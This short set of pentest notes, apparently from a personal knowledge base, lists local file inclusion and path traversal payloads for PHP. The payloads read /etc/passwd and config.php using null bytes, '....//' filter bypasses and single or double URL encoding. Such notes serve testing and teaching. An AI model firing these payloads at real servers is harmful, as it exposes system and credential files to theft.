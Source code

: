 #FI 
#php
* `/etc/passwd`
* `../../..etc/passwd`
* `language=./languages/../../../../etc/passwd` - bypass whitelist
* %00 - PHP stops reading file path and name, e. g. ../../../etc/passwd%00.php
* ....//....//....//etc/passwd - to bypass auto replace
* double URL encode, whole URL or just . / symbols
#### Obfuscation #encoding
1. **URL Encoded Bypass:** The attacker can use the URL-encoded version of the payload like `?file=%2e%2e%2fconfig.php`. The server decodes this input to `../config.php`, bypassing the filter.
2. **Double Encoded Bypass:** The attacker can use double encoding if the application decodes inputs twice. The payload would then be `?file=%252e%252e%252fconfig.php`, where a dot is `%252e`, and a slash is `%252f`. The first decoding step changes `%252e%252e%252f` to `%2e%2e%2f`. The second decoding step then translates it to `../config.php`.
3. **Obfuscation:** An attacker could use the payload `....//config.php`, which, after the application strips out the apparent traversal string, would effectively become `../config.php`.
